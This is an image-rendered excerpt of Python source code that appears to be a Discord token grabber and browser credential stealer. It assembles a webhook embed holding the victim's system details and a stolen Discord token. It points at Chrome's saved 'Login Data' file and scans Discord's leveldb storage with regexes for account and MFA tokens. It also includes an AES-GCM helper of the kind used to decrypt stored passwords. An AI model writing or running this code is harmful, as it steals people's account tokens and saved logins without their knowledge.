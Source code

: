 ```
                {
                    "name": "CPU Information",
                    "value": f"Psychical cores: {psutil.cpu_count(logical=False)}\nTotal Cores: {psutil.cpu_count(logical=True)}\n\nMax Frequency: {cpufreq.max:.2f}Mhz\nMin Frequency: {cpufreq.min:.2f}Mhz\n\nTotal CPU usage: {psutil.cpu_percent()}\n"
                },
                {
                    "name": "Memory Information",
                    "value": f"Total: {scale(svmem.total)}\nAvailable: {scale(svmem.available)}\nUsed: {scale(svmem.used)}\nPercentage: {svmem.percent}%"
                },
                {
                    "name": "Disk Information",
                    "value": f"Total Size: {scale(partition_usage.total)}\nUsed: {scale(partition_usage.used)}\nFree: {scale(partition_usage.free)}\nPercentage: {partition_usage.percent}%\n\nTotal read: {scale(disk_io.read_bytes)}\nTotal write: {scale(disk_io.write_bytes)}"
                },
                {
                    "name": "Network Information",
                    "value": f"Total Sent: {scale(net_io.bytes_sent)}\nTotal Received: {scale(net_io.bytes_recv)}"
                }
            ]
        },
        {
            "color": 7440378,
            "fields": [
                {
                    "name": "Discord information",
                    "value": f"Token: {realshit}"
                }
            ]
        }
    ]
}

DBP = r'Google\Chrome\User Data\Default\Login Data'
ADP = os.environ['LOCALAPPDATA']

def sniff(path):
    path += '\\Local Storage\\leveldb'

    tokens = []
    try:
        for file_name in os.listdir(path):
            if not file_name.endswith('.log') and not file_name.endswith('.ldb'):
                continue

            for line in [x.strip() for x in open(f'{path}\\{file_name}', errors='ignore').readlines() if x.strip()]:
                for regex in (r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}', r'mfa\.[\w-]{84}'):
                    for token in re.findall(regex, line):
                        tokens.append(token)
        return tokens
    except:
        pass


def encrypt(cipher, plaintext, nonce):
    cipher.mode = modes.GCM(nonce)
    encryptor = cipher.encryptor()
    ciphertext = encryptor.update(plaintext)
    return (cipher, ciphertext, nonce)
```